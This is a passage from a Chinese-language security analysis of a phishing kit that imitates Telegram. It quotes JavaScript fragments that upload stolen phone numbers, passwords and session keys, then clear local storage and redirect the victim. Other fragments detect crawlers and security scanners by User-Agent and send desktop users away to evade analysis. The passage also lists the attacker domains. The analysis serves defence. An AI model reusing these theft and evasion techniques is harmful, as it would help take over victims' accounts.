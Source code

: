   ~~~js
                  stateId: Number(stateId),
                  url: "web"
              }, function(data, status){
                  console.log("数据上传完毕");
                  localStorage.clear();
                  $(window).attr('location','/telegram/index.html'); // 跳转到空白页
              });
  
              clearInterval(status);
          }
      }, 100);
  }
  ~~~
  - 一旦检测到用户登录成功（即 `user_auth` 数据存在），脚本会将捕获的手机号、密码以及 Telegram 认证数据（如 DC 服务器盐和认证密钥）上传到攻击者控制的服务器，然后清空本地存储并重定向页面，防止用户察觉异常。

---

#### 3.4 `red.js` 分析

- **环境与爬虫检测**  
  ~~~js
  if (/Googlebot\/|Googlebot-Mobile|...|SkypeUriPreview|Veoozbot|Slackbot|redditbot|.../.test(navigator.userAgent)) {
      // 针对爬虫和安全扫描工具采取不同处理策略
  }
  ~~~
  - 通过长串正则表达式检测 User-Agent 中是否包含常见爬虫或安全工具的标识，若检测到则可能采取不同策略或阻止进一步显示钓鱼页面，以避免被自动化工具检测到。

- **PC 端跳转逻辑**  
  ~~~js
  if (!browser.versions.mobile) {
      console.log('PC');
      location.href = 'https://web.telegram.org/a/';
  }
  ~~~
  - 对于非移动设备，脚本会直接跳转至一个看似正常的 Telegram Web 地址，从而减少桌面用户或安全研究人员的进一步分析风险。

---

#### 3.5 综合评估

- **多域名联动与重定向**  
  - 通过 `collegctor.org`、`tg.tgackiouc.com`、`test.wufulinm-tg.top`、`aladj.wufulinm-tg.top` 等多个域名协同工作，攻击者构建了一条完整的重定向与数据收集链条。

- **敏感信息窃取**  
  - 主要利用 `login.js` 实时捕获用户输入的手机号和密码，并在检测到用户登录成功后，将包括 Telegram 会话相关的认证数据一起上传到远程服务器。

- **反爬虫与隐蔽措施**  
  - 通过对 User-Agent 的伪造、环境检测以及针对爬虫的正则过滤，攻击者极大地提高了钓鱼页面的隐蔽性和存活时间，降低了被检测的风险。

- **伪装度较高**  
  - 前端页面在视觉和逻辑上高度模仿 Telegram 官方界面，使普通用户难以分辨真伪，而核心恶意代码则在后台悄然运行，实现信息窃取。

---